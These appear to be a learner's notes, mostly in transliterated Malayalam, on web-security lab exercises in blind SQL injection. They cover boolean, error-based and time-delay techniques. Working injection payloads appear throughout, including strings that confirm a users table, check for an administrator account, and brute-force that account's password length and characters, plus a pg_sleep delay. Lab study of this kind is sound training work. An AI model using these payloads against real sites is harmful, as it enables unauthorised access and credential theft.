     Lab-5.a(practical-Blind SQL injection with conditional responses):

-->ivide conditional(true/false) aaya karyangal use chyumbol work aavunund.so athukondnammal 1=1 oke use chyth oron kandupidikunu
-->firsrt confirm the param is vulnerable to blind sql i
-->ivide cookie parameteril aan test chyendath
         -->cookie'+and+1=1-- itt nokuka.ok aanenkil blind sql i und
-->second confirm that we have a users table:
    -->'+and+(select+'x'+from+users+LIMIT+1)='x'--            (yes it exist)
-->athayath ith sheriyanengil x=x varum(karanam query nok users enna table undengil x enna letter output chyanam ennan query) so true kanikum apol welcome back enna maessage site il varum so angane namuk manasilakam users enna table und enn.
-->third confirm that username administrator exist in the users table:
     -->'+and+(select+username+from+users+where+username='administrator')
               ='administrator'--    (better url encode on burp before clicking send)
     ivide namuk welcome back enn kanam which means administrator enna username und.
	 nammal chyunath correct aano enn ariyan "wlcome back" enna msg varunundo enn nokiya mathi
-->fourth enumerate the lenth of the password of the administrator:
-->'+and+(select+username+from+users+where+username='administrator'+and+
      LENGTH(password)>1)='administrator'--;     (url encode chyuka)
-->ingnae oro query kazhinj 1 ullath mati 2,3,4,... ignane kodukuka enit avasanam length kazhinjal ath administrator umayi equal aakila apol namuk manasilakam lenght athrem aan ullathen ok
-->ee saththanam nammal burp intruderil itt brute force chyth nokanam.apol ariyan patum password inte correct length.ok.ipol length masasilayi ini charecters nokam
-->'+and+(select+substring(password,1,1)+from+users+where+username=
     'administrator')='a'--;                (Note oracle il substr mathrame uloo)
	==NOTE:ivide password,1,1 ile first 1 ennath onamathe charecter 'a' aano enn nokunathan.aanengil-password,2,1 itt mattoru letter nokanam.ok==
-->ivide 'a' enna sthalam nammal brute force chyunu angane namuk oro passwd charectersum kandupidikam.angane namuk admin nte full passwd kitum.

####  Inducing conditional responses by triggering SQL errors:
-->ivide nerthe pole condiitonal aaya response vech karyangal chyan pattila






       Lab-5.b(practical-Blind SQL injection with conditional errors):
-->aadyam ' single qoute itt sql i undon nokuka.athupole oru qoute koodi itt ath close chyth error varunundo enn nokuka.
-->'+||+(select+' ')+||+' itt nokuka 
-->oracle db aanengil '+||+(select+' '+from+dual)+||+'     itt nokuka 







#### Exploiting blind SQL injection by triggering time delays:
-->ivide time delay undakunathtan padipikunath

          Lab-5.c(practical-blind sql i with time delays):
-->nammal sql i eth parameteril varum enn kandupidikanam.ivide tracking-id cookie aan
-->so time delay undakanamenki eth database aan enn manasilakanam(cheatsheet).
        -->'+||+(SELECT+pg_sleep(10))--    
		